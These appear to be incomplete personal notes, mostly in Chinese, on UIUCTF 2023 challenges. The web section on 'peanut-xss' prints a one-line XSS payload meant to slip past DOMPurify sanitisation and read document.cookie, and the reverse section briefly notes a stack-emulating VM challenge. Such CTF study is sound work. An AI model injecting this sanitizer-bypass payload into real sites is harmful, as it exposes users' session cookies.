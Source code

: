 # web
### peanut-xss
#xss 
![image](https://i.imgur.com/ZQnjXKv.png)
一个创建nutshell(简要概述)的网站,下面可以写html然后预览,使用了dompurify来防止xss

---
[0day](https://hackmd.io/@Solderet/UIUCTF-2023-peanut-xss)
*payload*
```html
<a>:&lt;img src=x onerror='alert(document.cookie)'/&gt;</a>
```
# reverse
### vmwhere1
[wp](https://github.com/abhishekg999/UIUCTF-2023/tree/main/vmwhere1)
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230701140803.png)

![image](https://i.imgur.com/BkKztoa.png)

chal是一个程序,v6读取program内容
![image](https://i.imgur.com/8kpe89h.png)
跟进,发现是模拟栈的操作,看了好久看不懂


# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-01   14:00